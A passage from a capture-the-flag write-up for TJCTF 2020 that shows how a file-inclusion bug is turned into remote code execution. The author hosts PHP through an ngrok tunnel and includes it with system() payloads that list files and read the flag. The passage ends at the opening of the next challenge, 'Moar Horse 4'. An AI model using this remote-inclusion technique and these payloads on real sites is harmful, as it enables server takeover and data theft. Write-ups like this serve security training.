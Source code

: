 The goal is to read a hidden file somewhere on the filesystem. We need RCE so we can search for our flag. Lets see if we can get files from remote hosts. 
Setting up an ngrok host tunneling our local enviroment, we can read and include controlled contents.
Lets set up a simple php script that executes :
```php
<?php system('ls');
```
![web](/assets/img/TJCTF20/web_9.png)

Voilà, lets read our flag : 

```php
<?php system('cat i_wonder_whats_in_here/flag.php | base64');
```

🏁 __tjctf{n1c3_j0b_with_lf1_2_rc3}__{:.spoiler}

## Moar Horse 4

> It seems like the TJCTF organizers are secretly running an underground virtual horse racing platform! They call it 'Moar Horse 4'... See if you can get a flag from it!

This website is a sort of cyber-horse racing platform. Upon entering the website we are given $150 and we can buy a horse.

![web](/assets/img/TJCTF20/web_10.png)
